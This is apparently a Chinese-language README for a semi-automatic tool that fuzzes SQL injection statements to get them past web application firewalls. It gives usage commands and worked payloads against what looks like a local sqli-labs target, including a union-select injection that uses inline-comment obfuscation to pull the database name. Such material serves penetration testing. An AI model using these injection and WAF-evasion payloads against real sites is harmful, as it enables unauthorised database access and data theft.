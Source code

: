 # sql_Bypass_WAF
sql注入bypass waf工具，绕waf fuzz测试工具。

## 简介
---
sql_Bypass_WAF是一款sql注入绕waf工具，通过fuzz的方式，进行大量测试找到bypass语句。


## 整体流程
---
1. 半自动，需要人工判断拦截关键字并指定关键字进行fuzz测试。
2. 首先先访问一下waf拦截页面，获取拦截页面特征，如响应码、响应内容长度、body中关键字。
3. 进行fuzz测试，如果响应与之前的拦截响应有多处不同，证明成功绕过。


## Bypass方法
---
已实现Bypass方法：
内联注释

后续会更新更多的Bypass方法。



## 使用方法
---
1. -h查看参数帮助

![](./images/8.png)


2. 先判断出waf拦截的sql恶意语句。
---
![](./images/1.png)

3. 再将想要Bypass的语句带入到工具中，注意带入到工具中的url为waf拦截的url。
---
如果bypass一个参数，用"~"进行包裹，如
```
http://192.168.170.133/sqli/less-1/?id=1' and 1=1 --+
将"and"用~包裹后：
http://192.168.170.133/sqli/less-1/?id=1' ~and~ 1=1 --+
```

命令示例：
```
sql_Bypass_WAF.exe -s "http://192.168.170.133/sqli/less-1/?id=1' ~and~ 1=1 --+"
```

![](./images/2.png)


![](./images/3.png)

如果为两个参数，在两个参数中间加"^"，如
```
http://192.168.170.133/sqli/less-1/?id=1' order by 1 --+
将"order by"用^指定
http://192.168.170.133/sqli/less-1/?id=1' order^by 1 --+
```

命令示例：
```
sql_Bypass_WAF.exe -s "http://192.168.170.133/sqli/less-1/?id=1' order^by 1 --+"
```


![](./images/4.png)

![](./images/5.png)

暂不支持超过两个参数的fuzz，但可以拆分依次带入测试，如：

```
测试语句:
http://192.168.170.133/sqli/less-1/?id=-1' union select 1,database(),3 --+

先bypass"union select"
http://192.168.170.133/sqli/less-1/?id=-1' union^select 1,2,3 --+
bypass后语句：
http://192.168.170.133/sqli/less-1/?id=-1' union/*////%//select 1,2,3 --+

再bypass"database()"
http://192.168.170.133/sqli/less-1/?id=-1' union/*////%//select 1,database^(),3 --+

```

![](./images/6.png)

![](./images/7.png)



## 后续更新功能

1. post请求Bypass。
2. waf识别。
3. Bypass成功后自动生成tamper脚本。
4. 更多的Bypass方法。

